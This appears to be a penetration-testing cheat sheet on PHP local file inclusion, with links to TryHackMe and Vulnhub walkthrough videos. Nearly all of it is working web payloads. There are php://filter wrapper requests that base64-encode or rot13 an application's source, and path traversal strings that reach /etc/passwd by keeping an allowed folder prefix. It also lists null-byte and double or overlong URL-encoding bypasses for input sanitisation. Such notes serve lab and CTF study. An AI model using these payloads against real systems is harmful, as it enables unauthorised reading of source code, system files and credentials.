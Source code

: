 
## File extension appeneded at the end
- It is likely that the webserver appends a file extension at the end, e.g. 
- `$_GET['file']."php"`
- `$_GET['page']."log"`
- `$_GET['file']."html"`
	```
	?page=php://filter/read=string.rot13/resource=index
	?page=php://filter/convert.base64-encode/resource=index
	?page=pHp://FilTer/convert.base64-encode/resource=index
	php://filter/convert.base64-encode|convert.base64-decode/resource=index
	```
	```
	?page=php://filter/convert.base64-encode/resource=index
	?page=php://filter/convert.base64-encode/resource=index.php
	?page=php://filter/convert.base64-encode/resource=index.html
	?page=php://filter/convert.base64-encode/resource=index
	?page=php://filter/convert.base64-encode/resource=example
	?page=php://filter/convert.base64-encode/resource=../../../../etc/passwd
	?page=php://filter/convert.base64-encode/resource=example/../../../etc/passwd
	```
	- Some examples
		- [TryHackMe dogcat - phpfilter](https://youtu.be/NpgEb2l2vj8?t=217)
		- [Vulnhub PwnLab - phpfilter](https://youtu.be/Q85ku046Q_E?t=479)

## Backend Checking Folder Path: Bypass
- Backend checking whether utils/scripts exist, bypass by maintaining initial path
	```
	http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
	http://example.com/index.php?page=/var/www/../../etc/passwd
	http://10.10.59.97/?view=dog/../../../../../etc/passwd
	```
	- Some Examples
		- [TryHackMe dogcat - maintain initial path](https://youtu.be/NpgEb2l2vj8?t=300)
		
## Null Byte: Bypass
-  Bypassing `$_GET['param']."php"`
-  This is **solved since PHP 5.4**
	```
	http://example.com/index.php?page=../../../etc/passwd%00
	```

## Encoding: Bypass
- When there is some sort of input sanitization
	```
	?page=..%252f..%252f..%252fetc%252fpasswd 
	?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd 
	?page=%252e%252e%252fetc%252fpasswd 
	?page=%252e%252e%252fetc%252fpasswd%00
	```
